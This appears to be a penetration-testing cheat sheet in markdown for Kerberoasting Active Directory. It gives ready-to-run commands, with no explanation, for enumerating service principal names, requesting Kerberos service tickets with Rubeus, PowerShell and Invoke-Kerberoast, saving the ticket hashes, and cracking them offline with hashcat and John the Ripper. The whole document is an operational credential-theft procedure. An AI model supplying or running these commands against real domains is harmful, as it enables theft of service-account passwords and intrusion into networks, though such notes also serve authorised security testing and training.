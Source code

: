 # Kerberoast

## Find SPN

### Powerview

```csharp
. .\powerview.ps1
Get-NetUser -SPN
```

### Powershell

```csharp
setspn -T domain -Q */*
```

## Request a TGS

### Rubeus

```csharp
 .\Rubeus.exe kerberoast /outfile:hashes.txt
```

### Powershell

```csharp
Add-Type -AssemblyName system.identitymodel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab.domain.local"
```

### Invoke-Kerberoast

```csharp
 Invoke-Kerberoast -OutputFormat John  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
 Invoke-Kerberoast -OutputFormat hashcat  -ErrorAction SilentlyContinue | ft -HideTableHeaders -AutoSize Hash | Out-File -Width 5000 -Encoding "UTF8" .\roast.txt
```

## Crack

### Hashcat

```csharp
hashcat -m 13100 hash.txt dic.lst --force
```

### John

```csharp
john --format=krb5tgs --wordlist=dic.lst hash.txt
```

